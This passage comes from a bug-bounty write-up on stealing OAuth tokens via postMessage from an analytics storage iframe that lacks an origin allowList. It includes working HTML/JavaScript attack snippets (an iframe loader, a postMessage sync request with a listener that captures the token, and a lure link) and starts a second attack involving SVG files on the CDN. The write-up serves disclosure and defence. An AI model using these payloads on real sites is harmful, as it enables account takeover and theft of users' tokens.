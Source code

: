     ```html
    <div id="leak"><iframe
    id="i" name="i"
    src="https://cdn.customer12345.analytics.example.com/storage.html"
    onload="run()"></iframe></div>
    ```
2.  Since the malicious page was now the parent of the iframe, and no origins were defined in the `allowList`, the malicious page could send messages to the iframe to tell the storage to send messages for any updates to the storage. I could also add a listener to the malicious page to listen for any sync-updates from the storage:

    ```html
    <script>
    function run() {
      i.postMessage({type:'sync'}, '*')
    }
    window.addEventListener('message', function (e) {
     if (e.data && e.data.type === 'sync') {
         document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
     }
    });
    </script>
    ```
3.  The malicious page would also contain a regular link for the victim to click:

    ```html
    <a href="https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?..."
    target="_blank">Click here to hijack token</a>';
    ```
4.  The victim would click the link, go through the OAuth-dance, and end up on the non-happy path loading the tracking-script and the storage-iframe. The storage iframe gets an update of `last-url`. The `window.storage`-event would trigger in the iframe of the malicious page since the localStorage was updated, and the malicious page that was now getting updates whenever the storage changed would get a postMessage with the current URL of the victim:

    <figure><img src="https://labs.detectify.com/wp-content/uploads/2022/06/gadget3-example2.png" alt=""><figcaption></figcaption></figure>

## **Gadget 3: example 2, customer mix-up in CDN – DIY storage-SVG without origin check**

Since the analytics-service itself had a bug bounty, I was also interested to see if I could find a way to leak URLs also for the websites that had configured proper origins for the storage-iframe.

When I started searching for the `cdn.analytics.example.com` domain online without the customer-part of it, I noticed that this CDN also contained images uploaded by customers of the service:

```
https://cdn.analytics.example.com/img/customer42326/event-image.png
https://cdn.analytics.example.com/img/customer21131/test.png
```

I also noticed that there were SVG-files served inline as `Content-type: image/svg+xml` on this CDN:
